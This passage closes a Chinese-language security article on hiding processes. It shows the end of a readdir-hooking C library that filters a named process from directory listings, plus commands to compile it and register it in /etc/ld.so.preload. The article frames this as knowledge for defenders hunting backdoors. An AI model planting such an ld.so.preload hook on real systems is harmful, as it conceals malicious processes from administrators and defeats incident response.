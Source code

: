 ```php
                strcmp(process_name, process_to_filter) == 0) {         \
                continue;                                               \
            }                                                           \
        }                                                               \
        break;                                                          \
    }                                                                   \
    return dir;                                                         \
}

DECLARE_READDIR(dirent64, readdir64);
DECLARE_READDIR(dirent, readdir);
```

编译：

```php
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
sudo mv libprocesshider.so /usr/local/lib/
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

动态链接库劫持后看不到对应进程：

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-95e5839edecdbc7ca048db7777e03d2d83ea7b72.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-95e5839edecdbc7ca048db7777e03d2d83ea7b72.png)

通过该方法，使用网上的diff ps和/proc下的文件排查隐藏进程方法也是失效的。

总结
==

本文从Windows和Linux两个方面介绍了隐藏进程名和进程参数的方法，展示了通过不同的技术手段来达到隐藏的目的，当然也是希望以攻促防，让运维人员熟悉常见的后门来达到尽快全面排查机器的目的。